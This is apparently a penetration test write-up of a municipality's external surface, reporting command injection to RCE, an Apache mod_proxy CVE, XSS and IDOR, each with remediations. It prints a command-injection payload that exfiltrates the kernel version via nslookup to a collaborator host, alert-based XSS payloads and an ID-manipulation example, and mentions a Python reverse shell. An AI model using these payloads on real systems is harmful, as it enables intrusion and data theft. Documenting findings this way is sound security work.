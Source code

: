 ```yaml
---
layout: post
title: 'Municipality External PT'
tags:
 - web
 - real-engagement
hero: https://images.unsplash.com/photo-1462206092226-f46025ffe607?ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D&auto=format&fit=crop&w=1474&q=80
overlay: blue
---
```


No images (image for the step by step PoC are essential as evidence but will not be provided
) or references will be provided, as this assessment was a real engagement. Additionally, all URLs and functionalities have been anonymized to ensure privacy and compliance with non-disclosure agreements (NDAs). {: .lead} <!--break-->

# Municipality

## Type of activity and objectives
The objective of this engagement was to conduct an external penetration assessment for the organization. The aim was to identify potential vulnerabilities that could potentially be exploited from outside sources, with the goal of preventing unauthorized access and compromise.
## Scope of evaluation
The evaluation was focused on the external surface of the organization. This scope encompassed assessing the security and potential vulnerabilities within this external surface.
## Executive Summary
The security assessment conducted on the target environment revealed several significant findings that require immediate attention:

1. **OS Command Injection to Remote Code Execution (RCE):**
   The team successfully exploited an OS command injection vulnerability that led to remote code execution within the application. This critical finding poses a severe risk to the security and functionality of the application, as attackers could potentially execute arbitrary code and gain unauthorized access.

2. **CVE-2021-40438:**
   During the assessment, the team identified the presence of CVE-2021-40438, a known security vulnerability. This finding indicates that the application might be susceptible to a specific type of attack, potentially allowing attackers to compromise its integrity, confidentiality, or availability.

3. **Cross Site Scripting (XSS):**
   The team discovered instances of Cross-Site Scripting (XSS) vulnerabilities within the application. These vulnerabilities can be exploited to inject malicious scripts into web pages viewed by other users, compromising their browsing experience and potentially leading to data theft or unauthorized actions.

4. **Insecure Direct Object References (IDOR):**
   The assessment identified instances of Insecure Direct Object References (IDOR) vulnerabilities within the application. These vulnerabilities can enable attackers to access sensitive resources or data that they should not have access to, potentially leading to unauthorized information disclosure or data manipulation.

Failing to address these vulnerabilities could result in unauthorized access, data breaches, and potential financial and reputational damages. It is strongly recommended that the organization takes prompt actions to remediate these vulnerabilities and enhance the overall security posture of the external surface.
## Finding Summary
- OS cmd injection to RCE
- CVE-2021-40438
- Cross Site Scripting (XSS)
- IDOR
## Attack storyline or vulnerabilities with CVSS,CVE and remedations
### OS cmd injection to RCE
- CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
#### Proof of Concept (PoC) 
The following path was founded vulnerable: /password/index.php

- Detection of OS Injection: Using the payload **values%5Bpassword%5D=test|nslookup $(uname -r).collab.com.&**, the attacker identifies the presence of OS command injection by leveraging the nslookup command to execute the uname -r command, which retrieves the kernel version of the target system.

- Achieving Remote Code Execution: With the knowledge of the OS injection vulnerability, the attacker proceeds to execute arbitrary commands to gain control over the target system. In this PoC, the attacker leverages a crafted Python shell payload to establish a reverse shell connection, allowing them to remotely interact with the compromised system.
#### Remediations
- Implement Input Validation and Sanitization: Apply strict input validation and sanitization on all user-supplied inputs, especially those that are used in executing commands or constructing queries. This includes both form fields and URL parameters. Use input validation libraries and functions that reject or sanitize any suspicious or malicious inputs.

- Use Parameterized Queries: If database queries are involved, switch to using parameterized queries or prepared statements to prevent SQL injection vulnerabilities. This also helps mitigate OS command injection if the query construction is involved.

- Whitelisting Allowed Commands: Maintain a whitelist of allowed commands and sanitize input to ensure that only authorized commands can be executed. Validate user inputs against this whitelist before using them in command execution.
### CVE-2021-40438
- CVSS Vector: CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H
#### Proof of Concept (PoC) 
A crafted request uri-path can cause mod_proxy to forward the request to an origin server choosen by the remote user. This issue affects Apache HTTP Server 2.4.48 and earlier.

The following was used for exploitation: https://github.com/Kashkovsky/CVE-2021-40438 .
#### Remediations
- Update the Apache HTTP Server

### Cross Site Scripting (XSS)
- CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
#### Proof of Concept (PoC) 
The provided Proof of Concept (PoC) demonstrates Cross-Site Scripting (XSS) vulnerabilities within a web application. XSS is a type of security vulnerability that occurs when an application does not properly sanitize or validate user input before rendering it on a web page. This allows an attacker to inject malicious scripts into the application, which are then executed within the context of other users' browsers.

In the context of the PoC:

- **authRequestCode=</script><script>alert(1)</script>**
Here, the value provided for the authRequestCode parameter includes a script tag </script> to prematurely close the preceding script tag, followed by another script tag <script> that contains the JavaScript code alert(1). This payload attempts to execute an alert box with the message "1" when the vulnerable page is loaded by another user.

- **lang=asas';alert(1)//34**
In this payload, the lang parameter is set to a string asas', followed by the alert(1) JavaScript code. The //34 at the end of the payload appears to be an attempt to comment out the rest of the parameter value. This payload aims to inject an alert box in a similar manner to the previous payload.
#### Remediations
- Input Validation: Validate and sanitize all user inputs on the server-side before processing or rendering them. Use input validation libraries or frameworks to ensure that only expected and safe characters are allowed.

- Contextual Escaping: Apply context-specific escaping for user-generated content based on where it will be rendered (e.g., HTML, URL, JavaScript). Use appropriate escaping functions to ensure data is treated as data and not code.

- Output Encoding: Encode user-generated content and other dynamic data before rendering it in HTML, JavaScript, or other contexts. Use appropriate encoding functions for the specific context (e.g., HTML entities, JavaScript escaping) to prevent scripts from being executed.
### IDOR
- CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
#### Proof of Concept (PoC) 
During the test it was possbile ot view other user submiteted forms via an IDOR in the folling In this Proof of Concept (PoC), a vulnerability related to Insecure Direct Object References (IDOR) was identified within the web application. The specific parameter being tested is "?formId=15394." By manipulating this parameter and supplying different values, the attacker was able to access and view forms submitted by other users, potentially compromising their sensitive data.

An Insecure Direct Object Reference occurs when an application exposes a reference to an internal implementation object, such as a file, directory, or database record, without proper authorization checks. In this case, the application failed to validate the user's authorization before providing access to form submissions associated with a specific form ID.
#### Remediations
- Implement Proper Authorization Checks: Ensure that access controls and authorization checks are implemented for all resources and functionalities. Verify that users have the necessary permissions to access specific objects or data before providing them with access.

- Use Indirect Object References: Avoid directly exposing internal object references such as database IDs or filenames to users. Instead, use indirect references or tokens that are validated and mapped to the corresponding objects on the server side.

- Implement Contextual Access Control: Apply access controls based on the context of the user, their role, and the data they are allowed to access. This includes ensuring that users can only access their own data or data they are authorized to view.